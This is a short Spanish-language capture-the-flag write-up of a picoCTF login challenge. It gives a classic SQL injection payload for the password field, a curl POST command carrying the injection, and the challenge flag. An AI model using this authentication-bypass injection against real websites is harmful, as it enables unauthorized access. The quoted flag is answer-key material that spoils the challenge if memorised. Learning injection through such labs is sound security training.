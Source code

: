 # Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
# Solución
- Hacemos una inyección SQL en el campo de password
- ' or 1 == 1;
- La sentencia anterior es lo que usamos para poder acceder y así nos da la bandera
```
picoCTF{s0m3_SQL_f8adf3fb}
```
# Notas adicionales
- También se puede realizar la inyección desde la terminal de linux usando 
	- curl -s "link de la página" -d
	- El -d sirve para hacer un post con el curl "username=admin&password=**' or 1== 1;**&debug=1"
	- En negrita se muestra la inyección que se realiza
- Si inspeccionamos la página podemos ver que los datos que ingresamos se mandan al archivo php, entonces cambiamos al enlace para conectar con ese archivo y poder hacer la inyección
# Referencias
- https://www.youtube.com/watch?v=0EDbUSDqrng&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=7